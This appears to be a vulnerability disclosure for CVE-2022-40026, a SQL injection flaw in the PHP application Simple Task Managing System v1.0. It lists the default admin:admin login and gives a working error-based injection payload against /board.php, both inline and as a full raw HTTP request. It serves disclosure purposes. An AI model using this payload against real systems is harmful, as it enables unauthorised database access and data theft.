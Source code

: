 # CVE-2022-40026 Simple Task Managing System - SQL injection

Simple Task Managing System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /board.php

username:admin password:admin ----> {ip}/board.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/board.php has SQL injection

Payload: http://localhost:80/cve/Task Managing System in PHP/board.php?sn=admin1' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa

SQL injection because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-06-50.png)

## Payload

```sql
GET http://localhost:80/cve/Task Managing System in PHP/board.php?sn=admin1' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa HTTP/1.1
Host: localhost
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-09-40.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-07-15.png)